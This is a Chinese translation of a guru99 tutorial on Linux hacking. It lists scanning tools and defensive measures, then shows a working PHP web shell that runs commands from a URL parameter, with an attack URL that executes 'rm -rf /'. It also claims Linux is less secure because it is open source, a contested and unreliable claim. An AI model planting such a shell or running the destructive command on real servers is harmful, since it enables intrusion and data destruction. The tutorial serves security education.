

# 黑客 Linux 操作系统：完整的 Ubuntu 示例教程

> 原文： [https://www.guru99.com/hacking-linux-systems.html](https://www.guru99.com/hacking-linux-systems.html)

Linux 是使用最广泛的服务器操作系统，尤其是对于 Web 服务器。 它是开源的； 这意味着任何人都可以访问源代码。 **与其他操作系统相比，它的安全性较低，因为攻击者可以研究源代码来查找漏洞**。 [Linux](/unix-linux-tutorial.html) 黑客活动是利用这些漏洞来获得对系统的未经授权的访问。

在本文中，我们将向您介绍 Linux 是什么，Linux 的安全漏洞以及可以采取的对策。

## 本教程涵盖的主题

*   [关于 Linux](#1) 的快速说明
*   [Linux 黑客工具](#2)
*   [如何防止 Linux 骇客](#3)
*   [黑客活动：使用 PHP 入侵 Linux 系统](#4)

## 在 Linux 上的快速说明

**Linux 是开源操作系统**。 有许多基于 Linux 的操作系统发行版，例如 Redhat，Fedora 和 Ubuntu 等。与其他操作系统不同，Linux 在安全性方面不太安全。 这是因为源代码是免费提供的，因此与非开放源代码的其他操作系统相比，很容易研究它的漏洞并加以利用。 Linux 可以用作服务器，台式机，平板电脑或移动设备操作系统。

可以使用 GUI 或命令来操作 Linux 程序。 与使用 GUI 相比，这些命令更加有效。 因此，有助于了解 Linux 基本命令。

有关如何开始使用 Linux 的信息，请参考这些教程 [https://www.guru99.com/unix-linux-tutorial.html](/unix-linux-tutorial.html) 。

## Linux 黑客工具

*   **Nessus** –该工具可用于扫描配置设置，补丁和网络等。可以在 [https://www.tenable.com/products/nessus](https://www.tenable.com/products/nessus) 中找到它。
*   **NMap。** 此工具可用于监视服务器上正在运行的主机及其使用的服务。 它也可以用于扫描端口。 可以在 [https://nmap.org/](https://nmap.org/) 中找到
*   **SARA –** SARA 是 Security Auditor 研究助理的缩写。 顾名思义，此工具可用于针对诸如 [SQL](/sql.html) 注入，XSS 等威胁来审核网络。可以在 [http://www-arc.com/sara/sara 上找到该工具。 .html](http://www-arc.com/sara/sara.html)

上面的列表并不详尽； 它使您了解可用于入侵 Linux 系统的工具。

## 如何防止 Linux 黑客入侵

Linux Hacking 利用了操作系统中的漏洞。 组织可以采用以下策略来保护自己免受此类攻击。

*   **修补程序管理** –修补程序修复了攻击者用来破坏系统的错误。 良好的补丁程序管理策略将确保您不断将相关补丁程序应用到系统中。
*   **正确的操作系统配置** –其他漏洞利用服务器配置中的弱点。 不活动的用户名和守护程序应被禁用。 应更改默认设置，例如应用程序的通用密码，默认用户名和某些端口号。
*   **入侵检测系统** –此类工具可用于检测对系统的未授权访问。 一些工具具有检测和阻止此类攻击的能力。

## 黑客活动：使用 PHP 入侵 Ubuntu Linux 系统

在这种实际情况下，我们将为您提供有关如何使用 [PHP](/php-tutorials.html) 危害 Linux 的基本信息。 我们不会针对任何受害者。 如果要尝试，可以在本地计算机上安装 LAMPP。

PHP 带有两个可用于执行 Linux 命令的函数。 它具有 exec（）和 shell_exec（）函数。 函数 exec（）返回命令输出的最后一行，而 shell_exec（）以字符串形式返回命令的整个结果。

为了演示起见，假设攻击者管理者将以下文件上传到网络服务器上。

```
<?php

$cmd = isset($_GET['cmd']) ? $_GET['cmd'] : 'ls -l';

echo "executing shell command:-> $cmd</br>";

$output = shell_exec($cmd);

echo "<pre>$output</pre>";

?>
```

**此处，**

上面的脚本从名为 cmd 的 GET 变量获取命令。 使用 shell_exec（）执行命令，结果在浏览器中返回。

可以使用以下 URL 来利用以上代码

http：//localhost/cp/konsole.php？cmd = ls％20-l

**HERE,**

*   “…konsole.php？cmd = ls％20-l” **将值 ls –l 分配给变量 cmd** 。

针对服务器执行的命令将是

```
shell_exec('ls -l') ;
```

在 Web 服务器上执行上述代码可获得与以下类似的结果。



上面的命令仅显示当前目录中的文件和权限

假设攻击者传递了以下命令

```
rm -rf /
```

**HERE,**

*   “ rm”删除文件
*   “ rf”使 rm 命令以递归模式运行。 删除所有文件夹和文件
*   “ /”指示命令开始从根目录删除文件

攻击网址看起来像这样

http：//localhost/cp/konsole.php？cmd = rm％20-rf％20 /

## 摘要

*   Linux 是用于服务器，台式机，平板电脑和移动设备的流行操作系统。
*   Linux 是开源的，任何人都可以获取源代码。 这样可以轻松发现漏洞。
*   基本命令和网络命令对 Linux 黑客来说非常重要。
*   漏洞是可以利用来破坏系统的漏洞。
*   良好的安全性可以帮助保护系统免受攻击者的破坏。